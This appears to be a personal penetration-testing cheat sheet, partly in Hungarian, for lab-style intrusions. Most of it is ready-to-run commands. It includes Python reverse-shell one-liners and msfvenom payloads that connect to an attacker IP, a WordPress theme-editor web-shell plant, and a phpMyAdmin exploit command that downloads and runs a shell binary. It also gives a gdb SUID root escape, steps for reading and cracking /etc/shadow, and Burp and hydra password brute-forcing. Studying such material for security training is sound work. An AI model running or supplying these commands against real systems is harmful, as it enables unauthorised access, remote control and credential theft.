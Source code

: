 ## Advanced ping
``` sh
sudo nmap -sn <IP>
```
## Port scan
``` sh
sudo nmap -sS -sV <IP>
```

## Dirbuster wordlist
``` sh
/usr/share/wordlists/dirb/common.txt
```

## Password list 
``` sh
/usr/share/wordlists/rockyou.txt
```

## Listener
``` sh
nc -lvnp 4444
```
``` sh
nc -lvnp 5555
```

## PHP reverse shell generator
``` sh
msfvenom -p php/reverse_php LHOST=30.0.1.17 LPORT=4444 -f raw > rshell.php
```
Ezt fel kell tölteni csinálni egy listeneret és lefuttatni a Target gépen, ezáltal kapunk egy PHP reverse shellt

## SHELL Chaining PHP esetén (nem PHP-nál is működik)
``` python
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("30.0.1.17",5555));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```
``` python
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("30.0.1.17",5555));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

## Shell upgrade
``` python
python3 -c "import pty; pty.spawn('/bin/bash')"
```

# wpscan
wpscan --help
* --url URL    --> url megadása
* -o FILE      --> fájlba mentés
* -f FORMAT    --> mentés formátuma
* --detection-mode MODE --> passive, aggressive, mixed
* --user-agent AGENT --> agent megadása
* --random-user-agent
* --http-auth login:password --> Basic auth login
* -e --> mire vagyunk kíváncsiak
  * -e vp --> sérülékeny plugin
  * -e u --> minden user meghatározása
* -P --> jelszavak brute-forceolása
* --login-uri URI  --> ha az oldal nem az eredti IP-n található hanem máshol pl.: http://40.0.4.16/secret
* --stealthy --> elrejtőzés

## Web server megtalálása
Appearance --> Theme editor
Érdemes a comments.php-t buherálni
1. Shell kód generálása (msfvenom)
2. comments.php-be beírni
3. Listener attack gépen (nc)
4. Egy komment megnyitása

Vagy ami könnyebb v

## WordPress feltörés shell generálás
msfconsole
```
search wp admin shell
```
Ha megvan a szám akkor
```
use {szám}
```
vagy
```
use exploit/unix/webapp/wp_admin_shell_upload
```

## Meterpreter php script
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=30.0.1.17 LPORT=4444 -f raw > rshell.php
```
msfconsoleban
```
use exploit/multi/handler
```
Ez csak handler!!!

## betörés exploti python
3 külön terminal majd egyiken egy Listener majd egy másikban egy reverse shell(1) és egy python webserver ott ahol a exploit db s script van(python)(2) ezután feltöltjük(3). (1 2 3 egy mappában történjen)
```
msfvenom -p linux/x64/shell_reverse_tcp LPORT=4444 LHOST=30.0.1.17 -f elf > shell.elf
```
```
python3 -m http.server
```
```
python3 50457.py  40.0.5.16 80 /phpmyadmin pma pmapass "cd /tmp; rm -rf /tmp/shell.elf; wget http://30.0.1.17:8000/shell.elf;chmod 777 /tmp/shell.elf;/tmp/shell.elf"
```

# Linux PE (Privilige Excalaltion)
1. SUID bitek("meghatalmazás"): Ha egy futtatható fájlra ezt engedélyezzük, akkor a fájl nem az én jogaimmal indul majd el
   ### SUID bitek megkeresése
   ```
   find / -perm -u=s 2>/dev/null
   ```
   ### Használható fájlok
   - /usr/sbin/pppd
   - /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   - /usr/lib/openssh/ssh-keysign
   - /usr/lib/xorg/Xorg.wrap
   - /usr/libexec/polkit-agent-helper-1
   - /usr/bin/sudo
   - /usr/bin/su
   - /usr/bin/fusermount3
   - /usr/bin/pkexec
   - /usr/bin/gpasswd
   - /usr/bin/chfn
   - /usr/bin/mount
   - /usr/bin/chsh
   - /usr/bin/umount
   - /usr/bin/newgrp
   - /usr/bin/ntfs-3g
   - /usr/bin/passwd

    Ha van gdb
    ```
    gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
    ```
2. Sudo jogok: sudo -l
   - /etc/passwd  --> cat vagy ls -l  vagy /etc/shadow(jelszavak vannak itt)
     - Ha a jognál + jel van akkor
     ```
     getfacl /etc/passwd
     ```
     - catelés után jelszavak keresése $ on ként vannak részek első típus második is majd utána só és az utolsó a jelszó, ha megvan egy fájlba elmentjük majd `john`
       y: cript típus
     - jelszó feltörése: john (the ripper) vagy hashcat
       ```
       john <jelszofajl> --wordlist=/usr/share/wordlists/rockyou.txt (--format=crypt --> ha y típus)

       ```
 3. Python library hyjacking
 4. 

 ## Jelszó generálás
 ```
openssl passwd -5 alma
```
## Burpsuite
Firefox addon FoxyProxy
Proxy tab --> Intercept ON
Request küldése majd jobb klikk
Send to Repeater (jelszavak próbálgatása, manualisan)
Send to Intruder 
 Hozzáadjuk az add al, majd payload tab, megadjuk a jelszavakat és start attack, ezután nézzük a hosszakat

 ## Basic Authos
 hydra
